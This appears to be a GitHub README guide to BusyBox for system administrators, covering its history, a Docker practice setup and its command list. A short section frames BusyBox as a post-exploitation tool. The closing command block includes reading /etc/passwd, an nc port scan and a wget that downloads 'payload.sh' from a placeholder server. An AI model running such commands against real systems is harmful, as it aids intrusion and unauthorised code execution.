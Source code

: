 ## BusyBox Linux Learning Guide for System administrator job :

### 📌 Overview
BusyBox is a lightweight collection of common Unix/Linux utilities combined into a single binary.

It’s widely used in **embedded systems**, **rescue shells**, and **minimal Linux distributions** like Alpine.

For this role, **BusyBox Linux knowledge is mandatory** — meaning i must be able to perform system administration, troubleshooting, and networking tasks in a BusyBox-only environment.

---

### What is BusyBox ?

- **Definition** : 

BusyBox is a lightweight software suite that combines many common Unix utilities into a single small executable file. Often dubbed “The Swiss Army Knife of Embedded Linux,” BusyBox provides a compact implementation of numerous standard command-line tools that are essential for Unix-like operating systems.

The genius of BusyBox lies in its approach to combining functionality. Rather than having separate executables for each command like ls, cp, mv and tar, BusyBox packages all these utilities into one binary. When executed, BusyBox determines which tool to run based on how it was invoked, either through symbolic links or command-line arguments.

Typically weighing in at under 1MB, BusyBox can provide implementations of over 300 Unix utilities, including file operations, text processing tools, network utilities, system administration commands, and shell functionality. While these implementations are simplified compared to their full-featured GNU counterparts, they maintain compatibility with standard Unix command syntax for most common operations.

Official site for documentation : https://busybox.net

### History and Development :

BusyBox was created in 1996 by Bruce Perens as part of the Debian GNU/Linux installer. The original motivation was to create a rescue disk that could fit on a single floppy disk while still providing essential Unix tools.

</p>
<p align="center">
<img src="https://github.com/ablaamim/BUSYBOX-LINUX/blob/main/imgs/floppy_disk.jpg" width="500">
</p>

#### Why Hackers Should Care?

#### Why hackers care about busybox?

* Portability: BusyBox works on almost any Linux or Unix-like system.

* Minimal Footprint: Perfect for custom hacking distros, bootable USBs, or CTFs.

* Essential for Embedded Targets: Many IoT devices and routers run BusyBox by default—knowing it helps you exploit or secure them.

* Stealth: BusyBox can be statically compiled and dropped onto a target for post-exploitation, giving you a full set of tools even on stripped-down systems.

### Setting Up a Practice Environment :

- Run a docker busybox image to Practice and experiment.

```bash
docker run -it busybox /bin/sh
Unable to find image 'busybox:latest' locally
latest: Pulling from library/busybox
90b9666d4aed: Pull complete
Digest: sha256:f9a104fddb33220ec80fc45a4e606c74aadf1ef7a3832eb0b05be9e90cd61f5f
Status: Downloaded newer image for busybox:latest
```

- Test Busybox command 'busybox' :

```bash
/ # busybox
BusyBox v1.37.0 (2024-09-26 21:31:42 UTC) multi-call binary.
BusyBox is copyrighted by many authors between 1998-2015.
Licensed under GPLv2. See source distribution for detailed
copyright notices.

Usage: busybox [function [arguments]...]
   or: busybox --list[-full]
   or: busybox --show SCRIPT
   or: busybox --install [-s] [DIR]
   or: function [arguments]...

        BusyBox is a multi-call binary that combines many common Unix
        utilities into a single executable.  Most people will create a
        link to busybox for each function they wish to use and BusyBox
        will act like whatever it was invoked as.

Currently defined functions:
        [, [[, acpid, add-shell, addgroup, adduser, adjtimex, ar, arch, arp, arping, ascii, ash, awk, base32, base64, basename, bc, beep, blkdiscard,
        blkid, blockdev, bootchartd, brctl, bunzip2, bzcat, bzip2, cal, cat, chat, chattr, chgrp, chmod, chown, chpasswd, chpst, chroot, chrt, chvt, cksum,
        clear, cmp, comm, conspy, cp, cpio, crc32, crond, crontab, cryptpw, cttyhack, cut, date, dc, dd, deallocvt, delgroup, deluser, depmod, devmem, df,
        dhcprelay, diff, dirname, dmesg, dnsd, dnsdomainname, dos2unix, dpkg, dpkg-deb, du, dumpkmap, dumpleases, echo, ed, egrep, eject, env, envdir,
        envuidgid, ether-wake, expand, expr, factor, fakeidentd, fallocate, false, fatattr, fbset, fbsplash, fdflush, fdformat, fdisk, fgconsole, fgrep,
        find, findfs, flock, fold, free, freeramdisk, fsck, fsck.minix, fsfreeze, fstrim, fsync, ftpd, ftpget, ftpput, fuser, getfattr, getopt, getty,
        grep, groups, gunzip, gzip, halt, hd, hdparm, head, hexdump, hexedit, hostid, hostname, httpd, hush, hwclock, i2cdetect, i2cdump, i2cget, i2cset,
        i2ctransfer, id, ifconfig, ifdown, ifenslave, ifplugd, ifup, inetd, init, insmod, install, ionice, iostat, ip, ipaddr, ipcalc, ipcrm, ipcs, iplink,
        ipneigh, iproute, iprule, iptunnel, kbd_mode, kill, killall, killall5, klogd, last, less, link, linux32, linux64, linuxrc, ln, loadfont, loadkmap,
        logger, login, logname, logread, losetup, lpd, lpq, lpr, ls, lsattr, lsmod, lsof, lspci, lsscsi, lsusb, lzcat, lzma, lzop, makedevs, makemime, man,
        md5sum, mdev, mesg, microcom, mim, mkdir, mkdosfs, mke2fs, mkfifo, mkfs.ext2, mkfs.minix, mkfs.vfat, mknod, mkpasswd, mkswap, mktemp, modinfo,
        modprobe, more, mount, mountpoint, mpstat, mt, mv, nameif, nanddump, nandwrite, nbd-client, nc, netstat, nice, nl, nmeter, nohup, nologin, nproc,
        nsenter, nslookup, ntpd, od, openvt, partprobe, passwd, paste, patch, pgrep, pidof, ping, ping6, pipe_progress, pivot_root, pkill, pmap,
        popmaildir, poweroff, powertop, printenv, printf, ps, pscan, pstree, pwd, pwdx, raidautorun, rdate, rdev, readahead, readlink, readprofile,
        realpath, reboot, reformime, remove-shell, renice, reset, resize, resume, rev, rm, rmdir, rmmod, route, rpm, rpm2cpio, rtcwake, run-init,
        run-parts, runlevel, runsv, runsvdir, rx, script, scriptreplay, sed, seedrng, sendmail, seq, setarch, setconsole, setfattr, setfont, setkeycodes,
        setlogcons, setpriv, setserial, setsid, setuidgid, sh, sha1sum, sha256sum, sha3sum, sha512sum, showkey, shred, shuf, slattach, sleep, smemcap,
        softlimit, sort, split, ssl_client, start-stop-daemon, stat, strings, stty, su, sulogin, sum, sv, svc, svlogd, svok, swapoff, swapon, switch_root,
        sync, sysctl, syslogd, tac, tail, tar, taskset, tc, tcpsvd, tee, telnet, telnetd, test, tftp, tftpd, time, timeout, top, touch, tr, traceroute,
        traceroute6, tree, true, truncate, ts, tsort, tty, ttysize, tunctl, ubiattach, ubidetach, ubimkvol, ubirename, ubirmvol, ubirsvol, ubiupdatevol,
        udhcpc, udhcpc6, udhcpd, udpsvd, uevent, umount, uname, unexpand, uniq, unix2dos, unlink, unlzma, unshare, unxz, unzip, uptime, users, usleep,
        uudecode, uuencode, vconfig, vi, vlock, volname, w, wall, watch, watchdog, wc, wget, which, who, whoami, whois, xargs, xxd, xz, xzcat, yes, zcat,
        zcip
```

- More commands :
```
bash# List users
busybox cat /etc/passwd

# Check network interfaces
busybox ifconfig

# Scan for open ports (if netcat is available)
busybox nc -zv 127.0.0.1 1-1024

# Download a script or tool
busybox wget http://yourserver/payload.sh

# Get a shell
busybox sh
```